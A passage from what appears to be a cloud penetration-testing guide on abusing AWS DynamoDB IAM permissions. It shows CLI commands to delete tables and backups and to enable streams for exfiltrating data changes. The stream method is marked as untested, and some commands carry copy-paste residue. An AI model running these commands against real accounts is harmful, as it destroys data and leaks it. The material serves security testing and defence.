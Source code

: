 **Potential Impact:** Exploitation of further vulnerabilities/bypasses by being able to add/modify data in a DynamoDB table

### `dynamodb:DeleteTable`

An attacker with this permission can **delete a DynamoDB table, causing data loss**.

```bash
aws dynamodb delete-table \
    --table-name TargetTable \
    --region <region>
```

**Potential impact**: Data loss and disruption of services relying on the deleted table.

### `dynamodb:DeleteBackup`

An attacker with this permission can **delete a DynamoDB backup, potentially causing data loss in case of a disaster recovery scenario**.

```bash
aws dynamodb delete-backup \
    --backup-arn arn:aws:dynamodb:<region>:<account-id>:table/TargetTable/backup/BACKUP_ID \
    --region <region>
```

**Potential impact**: Data loss and inability to recover from a backup during a disaster recovery scenario.

### `dynamodb:StreamSpecification`, `dynamodb:UpdateTable`, `dynamodb:DescribeStream`, `dynamodb:GetShardIterator`, `dynamodb:GetRecords`

{% hint style="info" %}
TODO: Test if this actually works
{% endhint %}

An attacker with these permissions can **enable a stream on a DynamoDB table, update the table to begin streaming changes, and then access the stream to monitor changes to the table in real-time**. This allows the attacker to monitor and exfiltrate data changes, potentially leading to data leakage.

1. Enable a stream on a DynamoDB table:

```bash
bashCopy codeaws dynamodb update-table \
    --table-name TargetTable \
    --stream-specification StreamEnabled=true,StreamViewType=NEW_AND_OLD_IMAGES \
    --region <region>
```

2. Describe the stream to obtain the ARN and other details:

```bash
bashCopy codeaws dynamodb describe-stream \
    --table-name TargetTable \
    --region <region>
```
